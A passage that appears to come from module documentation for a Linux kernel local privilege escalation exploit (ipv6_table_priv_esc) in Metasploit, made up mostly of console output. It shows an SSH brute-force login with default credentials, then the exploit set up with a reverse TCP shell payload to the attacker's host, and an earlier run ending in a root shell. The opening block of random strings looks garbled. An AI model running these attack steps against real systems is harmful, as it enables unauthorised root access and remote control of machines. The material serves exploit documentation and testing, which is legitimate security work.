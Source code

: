     1618427772
    jdFSUosTqNJaVEMpzfzelTjcPBqRLSDd
    true
    qQjuuRQCackaoGwoOTaGakjgByjbScSd
    LBpvbVttOOyKxmcIvDlsHSxTwhIWNSkm
    vOtFHFXenciIGZVOZkXGuTVlWKVznFdV
    true
    EpBDmHRYATKXgsfFwsZbJuineFcLXXVW
    wYoOlFDLFoIUAhrTISAFhiLiOpVzzKTz
    xnVVXaIPZOaPhFoZucZfqGQAAHMtwZlr
    true
    qfURtnhwAJiMQPEQxQcHgZDTKTpjyOww
    rRdugFTnCVkKKPGcHJDYVzUsVNUutjGZ
    fPGGNfnIEHeZSDVqwHvffBgujeujRjrn
    whoami;uname -a
    root
    Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

#### A full run against Ubuntu 14.04 with 4.2.0-27

    [*] Processing ipv6.rc for ERB directives.
    resource (ipv6.rc)> use auxiliary/scanner/ssh/ssh_login
    resource (ipv6.rc)> set rhosts 192.168.2.156
    rhosts => 192.168.2.156
    resource (ipv6.rc)> set username ubuntu
    username => ubuntu
    resource (ipv6.rc)> set password ubuntu
    password => ubuntu
    resource (ipv6.rc)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:38201 -> 192.168.2.156:22) at 2016-10-25 15:27:38 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    resource (ipv6.rc)> use exploit/linux/local/ipv6_table_priv_esc
    resource (ipv6.rc)> set verbose true
    verbose => true
    resource (ipv6.rc)> set payload linux/x64/shell/reverse_tcp
    payload => linux/x64/shell/reverse_tcp
    resource (ipv6.rc)> set session 1
    session => 1
    resource (ipv6.rc)> set target 1
    target => 1
    resource (ipv6.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (ipv6.rc)> check
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.2.0.pre.27.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*]  The target appears to be vulnerable.
    resource (ipv6.rc)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.2.0.pre.27.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*] Writing to /tmp/1B5WCsJQ.c (5207 bytes)
    [*] Max line length is 65537